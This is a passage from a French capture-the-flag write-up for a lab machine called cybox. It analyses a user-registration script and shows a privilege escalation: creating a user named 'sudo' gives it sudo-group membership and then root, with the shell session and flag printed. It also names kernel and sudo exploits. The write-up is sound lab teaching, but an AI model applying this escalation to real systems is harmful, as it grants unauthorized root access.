 ```bash
fi
```

C'est visiblement le même script qui était appelé depuis `register.cybox.company`.

Le script n'est pas vulnérable à une injection de commande car la valeur `$USERNAME` est systématiquement mise entre double-quotes.

Le script n'est pas non plus vulnérable à une race-condition. L'idée qui m'est venue est qu'entre le `useradd` et le `chown` on dispose d'assez de temps pour créer un lien symbolique de `Maildir` vers `/etc/sudoers` ou `/etc/shadow`.

Seulement :

* si on créé un lien symbolique dans `Maildir`, `chown -R` ne suit pas les liens symboliques

* si on crée un lien symbolique `Maildir` la commande `chown` indiquera que `Maildir/` n'est pas un dossier

Au final le seul élément vulnérable c'est l'affectation du groupe par `useradd` à l'utilisateur : le script vérifie que l'utilisateur n'existe pas déjà mais ne fait pas la même chose pour le groupe. Si on choisi de créer un utilisateur nommé après un groupe privilégié il y a moyen d'augmenter nos privilèges.

Généralement les utilisateurs du groupe `sudo` peuvent passer root :

```shellsession
daemon@cybox:/opt$ ./registerlauncher sudo 
sudo@cybox.company has been created successfully. The credentials are sudo:sudo. You should change your default password for security.
daemon@cybox:/opt$ su sudo
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

sudo@cybox:/opt$ sudo su
[sudo] password for sudo: 
root@cybox:/opt# cd /root/
root@cybox:~# ls
Maildir  root.txt
root@cybox:~# cat root.txt 
4c0183fdd736e2b8fb3f57ddbfa8ce36
```

C'est bien la première fois que je fais un `su sudo` au lieu d'un `sudo su` :D

Alternativement `LinPEAS` indiquait que le système est vulnérable à `DirtyCOW`  et `Sudo Baron Samedit`.

*Publié le 16 novembre 2022*
